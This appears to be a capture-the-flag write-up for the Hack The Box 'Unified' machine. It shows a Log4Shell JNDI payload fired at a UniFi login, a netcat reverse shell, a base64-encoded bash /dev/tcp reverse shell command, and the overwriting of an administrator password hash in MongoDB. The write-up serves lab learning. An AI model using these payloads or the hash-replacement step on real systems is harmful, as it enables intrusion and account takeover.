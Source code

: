 ## Machine Info

**Tags:**

Web, Vulnerability Assessment, Databases, Injection, Custom Applications, Outdated Software, MongoDB, Java, Reconnaissance, Clear Text Credentials, Default Credentials, Code Injection

## Recon

concise version:

```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
8880/tcp open  cddbp-alt?
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Tue, 21 Nov 2023 20:01:55 GMT
|     Connection: close
```

## Foothold

### unifi - 6.4.54

- firefox -> https://10.129.96.149:8443 -> accept risk and visit

![image-20231122093801746](./Unified.assets/image-20231122093801746.png)

- searchsploit to find exp

```bash
$ searchsploit unifi network
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Ubiquiti Networks UniFi 3.2.10 - Cross-Site Request Forgery                        | json/webapps/39488.txt
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass          | php/webapps/39268.java
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ searchsploit Ubiquiti
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Ubiquiti Administration Portal - Remote Command Execution (via Cross-Site Request Forgery)                                           | cgi/webapps/40044.html
Ubiquiti airCam RTSP Service 1.1.5 - Buffer Overflow (PoC)                                                                           | hardware/dos/26138.txt
Ubiquiti airOS - Arbitrary File Upload (Metasploit)                                                                                  | unix/remote/39853.rb
Ubiquiti AirOS 5.5.2 - (Authenticated) Remote Command Execution                                                                      | hardware/remote/23735.py
Ubiquiti Networks UniFi 3.2.10 - Cross-Site Request Forgery                                                                          | json/webapps/39488.txt
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass                                                            | php/webapps/39268.java
Ubiquiti UbiFi / mFi / AirVision - Cross-Site Request Forgery                                                                        | hardware/webapps/34187.txt
Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation                                                                              | windows/local/43390.txt
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- choose: [puzzlepeaches/Log4jUnifi: Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more. (github.com)](https://github.com/puzzlepeaches/Log4jUnifi) and install this tool -> get a shell based on this exp usage

```bash
$ python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.15.98 -p 1234
[*] Starting malicous JNDI Server
{"username": "${jndi:ldap://10.10.15.98:1389/o=tomcat}", "password": "log4j", "remember": "${jndi:ldap://10.10.15.98:1389/o=tomcat}", "strict":true}
[*] Firing payload!
[*] Check for a callback!

$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.98] from (UNKNOWN) [10.129.96.149] 33788
id
uid=999(unifi) gid=999(unifi) groups=999(unifi)
```

## Privilege Escalation

```bash
$ sudo nc -lvnp 8899
listening on [any] 8899 ...
connect to [10.10.15.98] from (UNKNOWN) [10.129.96.149] 47058
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
unifi@unified:/usr/lib/unifi$ ls
ls
bin
data
dl
lib
logs
run
webapps
work
unifi@unified:/usr/lib/unifi$ id
id
uid=999(unifi) gid=999(unifi) groups=999(unifi)
```

- using /bin/bash to get a better shell

### mongodb cred seeking

- check procs

```bash
unifi@unified:/usr/lib/unifi$ ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   19:59   0:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
unifi          7  0.0  0.1  18512  3200 ?        S    19:59   0:00 bash /usr/local/bin/docker-entrypoint.sh unifi
unifi         17  1.1 22.3 3679540 455460 ?      Sl   19:59   0:53 java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/ace.jar start
unifi         67  0.1  4.1 1100676 85304 ?       Sl   19:59   0:09 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       2121  0.0  0.1  18380  3120 ?        S    21:13   0:00 bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuOTgvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
unifi       2124  0.0  0.1  18512  3348 ?        S    21:13   0:00 bash -i
unifi       2127  0.0  0.1  18380  3172 ?        S    21:13   0:00 bash
unifi       2207  0.0  0.1  18512  3532 ?        S    21:16   0:00 /bin/bash -i
unifi       2315  0.0  0.1  34408  2952 ?        R    21:20   0:00 ps aux
```

- find java's unifi and mongod are in the same project. And mongod's port is **27117** -> **unifi's dataset is mongodb !!!**
- conn mongdb -> get sensitive data

```bash
unifi@unified:/usr/lib/unifi$ mongo --port 27117
mongo --port 27117
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/
MongoDB server version: 3.6.3

show dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB

$ use ace
switched to db ace

$ db.admin.find({"name":"administrator"})

$ db.admin.find({}, {name: 1})
```

- change x-shadow in order to change password of admin

```
db.admin.find().pretty()
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",
        "ui_settings" : { ...
```

```
db.admin.updateOne(
   { "name": "administrator" },
   { $set: { "x_shadow": "$6$Xolj1ebW9aRM/8xt$wj.BXJW73pUViZmZZhVyOqsyF35nlKx9t58gO2oLPbkhilOrDdyIQEvZjBYSjN9Dl5Dq6rOcA5rKC7/YtUTEt." } }
)
{ "acknowledged" : true, "matchedCount" : 1, "modifiedCount" : 1 }
```

- another method to update user's x-shadow

```
db.admin.update(
   { "name": "administrator" },
   { $set: { "x_shadow": "new_value" } },
   { multi: false }
)
```

### unifi -> root

- `su: must be run from a terminal` -> update shell

```bash
unifi@unified:/usr/lib/unifi$ su administrator
su administrator
su: must be run from a terminal
/usr/bin/script -qc /bin/bash /dev/null
```

- su root -> password wrong [x] change x-shadow does not alter shadow file -> Unifi login pass

![image-20231122095020804](./Unified.assets/image-20231122095020804.png)

![image-20231122095026442](./Unified.assets/image-20231122095026442.png)

- find cred to ssh conn into the server

![image-20231122095051982](./Unified.assets/image-20231122095051982.png)

---

## Failed Road

- instead of replacing x-shadow, crack hash [x]
- `$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4. - SHA-256`
- hashcat [x]
- john [x]
